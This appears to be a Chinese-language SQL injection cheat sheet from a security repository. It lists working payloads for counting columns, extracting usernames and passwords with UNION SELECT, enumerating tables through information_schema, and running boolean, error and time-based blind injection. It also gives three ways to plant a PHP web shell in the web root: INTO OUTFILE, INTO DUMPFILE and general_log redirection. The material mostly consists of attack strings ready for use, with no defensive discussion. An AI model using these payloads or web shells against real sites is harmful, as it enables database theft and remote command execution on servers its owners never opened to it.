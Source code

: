 # Web-Security-Cheatsheet

## SQL Injection

https://portswigger.net/web-security/sql-injection/cheat-sheet

### 目標

被放入 SQL 語句的資料如表單、參數、cookie 等

> 如果放在 http request 則要注意 url encode

### 基礎

- 欄位數: `' UNION SELECT NULL,NULL,NULL-- `
- 型別: `' UNION SELECT 'a',NULL,NULL,NULL--`
- 合併不同欄位: `' UNION SELECT username || '~' || password FROM users--`
- 合併同一欄位所有資料: `' UNION SELECT group_concat(username) FROM users--`

#### 額外資料

- 資料庫名: `SELECT table_schema FROM information_schema.schema`
- 資料表名: `SELECT table_name FROM information_schema.tables where table_schema == 'target'`
- 欄位名: `SELECT column_name FROM information_schema.columns WHERE table_name = 'users'`
- 欄位型別: `SELECT data_type FROM information_schema.columns WHERE table_name = 'users'`

### Blind SQL Injection

[範例](simple_blind_sql_injection.py)

- UNION-Based: `' AND (condition)-- `
- Error-Based: `' OR (SELECT CASE WHEN (condition) THEN 1/0 ELSE 1 END)-- `
- Time-Based: `'; (SELECT CASE WHEN (condition) THEN sleep(3) ELSE sleep(0) END)-- `

### 檔案寫入
- `SELECT '<?php exec($_GET["cmd"])' INTO OUTFILE '/var/www/html/shell.php'`
- `SELECT '<?php exec($_GET["cmd"])' INTO DUMPFILE '/var/www/html/shell.php'`
- 
```sql
set global general_log = on;
set global general_log_file = '/var/www/html/shell.php';
select '<?php exec($_GET["cmd"])'
set global general_log = off;
```

